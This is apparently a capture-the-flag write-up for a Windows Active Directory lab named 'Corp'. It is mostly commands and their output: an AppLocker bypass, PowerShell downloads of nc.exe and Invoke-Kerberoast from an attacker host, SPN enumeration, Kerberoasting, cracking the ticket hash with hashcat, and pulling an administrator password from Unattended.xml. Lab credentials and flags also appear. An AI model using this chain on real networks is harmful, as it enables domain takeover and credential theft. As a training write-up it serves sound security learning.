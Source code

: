 > Corp

# Credentials

```
Username: corp\dark
Password: _QuejVudId6
```

`xfreerdp /f /u:"corp\dark" /p:"_QuejVudId6" /v:$IP`

Looks like AppLocker is in place. AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher and hash.

# Bypassing AppLocker

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: C:\Windows\System32\spool\drivers\color - This is whitelisted by default.

`powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.8.107.21:8000/nc.exe', 'C:\Windows\System32\spool\drivers\color\nc.exe')"`

And we have nc.exe. And we can execute and so we have bypassed AppLocker.

Get-Content -Path 'C:\Users\dark\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt'

```
flag{a12a41b5f8111327690f836e9b302f0b}
```

`setspn -T medin -Q ​ */*` => extract all accounts in the SPN.

```
Ldap Error(0x51 -- Server Down): ldap_connect
Failed to retrieve DN for domain "medin" : 0x00000051
Warning: No valid targets specified, reverting to current domain.
CN=OMEGA,OU=Domain Controllers,DC=corp,DC=local
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/omega.corp.local
        ldap/omega.corp.local/ForestDnsZones.corp.local
        ldap/omega.corp.local/DomainDnsZones.corp.local
        TERMSRV/OMEGA
        TERMSRV/omega.corp.local
        DNS/omega.corp.local
        GC/omega.corp.local/corp.local
        RestrictedKrbHost/omega.corp.local
        RestrictedKrbHost/OMEGA
        RPC/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        HOST/OMEGA/CORP
        HOST/omega.corp.local/CORP
        HOST/OMEGA
        HOST/omega.corp.local
        HOST/omega.corp.local/corp.local
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/7c4e4bec-1a37-4379-955f-a0475cd78a5d/corp.local
        ldap/OMEGA/CORP
        ldap/7c4e4bec-1a37-4379-955f-a0475cd78a5d._msdcs.corp.local
        ldap/omega.corp.local/CORP
        ldap/OMEGA
        ldap/omega.corp.local
        ldap/omega.corp.local/corp.local
CN=krbtgt,CN=Users,DC=corp,DC=local
        kadmin/changepw
CN=fela,CN=Users,DC=corp,DC=local
        HTTP/fela
        HOST/fela@corp.local
        HTTP/fela@corp.local

Existing SPN found!
```

Let's use Invoke-Kerberoast to get a ticket.

powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.8.107.21:8000/Invoke-Kerberoast.ps1', 'C:\Windows\System32\spool\drivers\color\Invoke-Kerberoast.ps1')"

Le's load it into the system. We have to this 1 line at the end of Invoke-Kerberoast.ps1 file. `Invoke-Kerberoast -OutputFormat hashcat |fl`. And we got a ticket. 

```
TicketByteHexStream  :                                                                         Hash                 : $krb5tgs$23$*fela$corp.local$HTTP/fela*$8027FC7B7AF5CEABDF2BC4F311095B5                        A$08DAEC705F9A469A3A18CC3ADCDA0ACE4EC468D739A4AC4489B9C88565A8243812A4E                        FF6604520AFC3218F7928C921CFE5489A092FAD6E5100235D600E69F933CA6CCA144DD7                        7E7FA7590CC1CC75364574F6C8A7F2EB1AA0F741185B7B5228E8759B1EDF466F7A87336                        E410FD21BEC812C2AB9890E0C38B610B378EFDB9B3802C8E379CD2BF07C9AD4D916B0AC                        1005281399CC88F4538E3EBEF305C45BB23F78D62EDD487AE3734EE664237C35ECB33F9                        3A453DEC3C76E921E39D05420BB4FB8266960E9C92589C995943590A85CC65F75D724CD                        C1BE51B83E4FD1B8290A327E8FE338D705D9C3A7E0AD7DD6BCD77274E034F2C4681F10E                        27ED8365A414DFC28E980690878BEA64D4027D07EF6AC0AE2AD8D0AD82BDE1E0328ED1F                        FBFD9CE879D51431C524799F5EDE155AFBCC49639CD2A9E03EA64A732C85A2CEFD73148                        EE18B0EA667D9DCF7541AEC6AB9F95B5B7EB8B1777837F872FD1CC9D4492520B8369AB9                        A72B40E68E5DA2B48EF71B6DC5FAAB1F31629CAA1D2BCE50303E6EFB2E58985A1EAFE34                        1584C5E0F2D0595E9CD3E409752C0A57C6C186D98DD1BC03CE218FDF49AFFC5EE7A658F                        9C6F7E5223E9E3D7891C3815C44EA8BC099EAE55C7D500729784A62AC7BEA97B23A3031                        1CEB7344E038F45B20A17557675B555AD6A5C0E0D61367C83B09CD06378B97A9B869BBA                        44243C7D410E14EA8F29DF4C3746DBF7ACBC4113D10F8D1C0180997890CBAAC9405BD8F                        0A7318CD5A7B6D38D4BE78F50584A07D1D2A1E7BEC2C17FA3BB8F57E00B05754933E431                        995BEA5BB755B675528F5D49F96113DFCDCFA095052DF9296202D620E83C80D16608979                        EEFDAE0203FC553446A186DDA3ED98DD92CAD6FD9E0F0AD57E117F1B3188B7BA7A1C2B1                        74073D6B6BF2DBB03D00CE1146971162DBEE3792E991F1AD4D518D5455F57C57DCECD90                        5A8DAD54960B715E183DD5B9973A1BAF3500506F69ECFF1471B19DCD3F13746E1955FC5                        AD4C16A25F126073C2058BB8524F2E93C76E17DA79EEED8E8F79A23FBF000FBFA46C925                        E1FEF202B872561C374D8C9416385236F759EE27DFA3449B91E1DF49175A4A458F58940                        E9467631BF7B625A2F18F7C12F6324074ED82466FFEE83C5B5E93F391A6A5BB8912D6F6                        6CB40698009148A3C58E44538F71781786001A64826EA8C6F7B8381818C9C203279ECF8                        522E85551831FB8394B059D852B2BA5903FE2442F416A2DD1267729E96C8C393FB0E09E                        E4490E9ED702DA5D265E2C85D6BE263313BA1CAA7915541DB694B4F9B8A1F8C8FCE15A8                        ED01C664EE10D1CBF88516D13E11C19545FE9B8B5FAE118FD2ECDB6C2D765D34E6C2D95                        DB8E074D0F5541714F601ACDA58A4A28C74CC650B2F7032E4BD30ACE1CE28FA9AF6A742 SamAccountName       : fela                                                                    DistinguishedName    : CN=fela,CN=Users,DC=corp,DC=local                                       ServicePrincipalName : HTTP/fela 
```

# Cracking with hashcat

hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force

```
rubenF124
```

fela:rubenF124

xfreerdp /f /u:"fela" /p:"rubenF124" /v:10.10.125.84

# user.txt

```
flag{bde1642535aa396d2439d86fe54a36e4}
```

# Privilege Escalation

We can tranfer PowerUp1.ps1 and try to get ways to admin access. 1st in Bypassing UAC and next is `UnattendedPath`.
Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode.

# C:\Windows\Panther\Unattend\Unattended.xml.

```
<AutoLogon>
    <Password>
        <Value>dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=</Value> => On decoding it we got `tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T`
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>Administrator</Username>
</AutoLogon>
```

Let's login as admin now.

xfreerdp /u:'corp/administrator' /p:'tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T' /v:10.10.125.84

# root.txt

```
THM{g00d_j0b_SYS4DM1n_M4s73R}
```